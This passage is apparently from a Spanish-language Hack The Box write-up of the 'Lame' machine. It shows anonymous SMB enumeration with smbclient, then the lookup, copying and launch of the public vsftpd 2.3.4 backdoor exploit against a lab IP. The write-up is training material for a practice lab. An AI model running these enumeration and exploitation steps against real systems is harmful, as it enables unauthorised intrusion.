 Y ahora vemos que funciona

```shell
smbclient -L 10.10.10.3 -N
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```

## Explotación

Buscamos vulnerabilidades con `vsftpd 2.3.4` hi parece que si que hay asi que vamos a probarlo

```shell
> searchsploit vsftpd 2.3.4
-------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                            |  Path
-------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                 | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                    | unix/remote/17491.rb
-------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
> searchsploit -m unix/remote/49757.py
  Exploit: vsftpd 2.3.4 - Backdoor Command Execution
      URL: https://www.exploit-db.com/exploits/49757
     Path: /usr/share/exploitdb/exploits/unix/remote/49757.py
File Type: Python script, ASCII text executable

Copied to: /home/red/Desktop/HTB/machines/Easy/Lame/exploits/49757.py

> ls
 49757.py
> mv 49757.py exploit.py
> python3 exploit.py 10.10.10.3
^C   [+]Exiting...
```
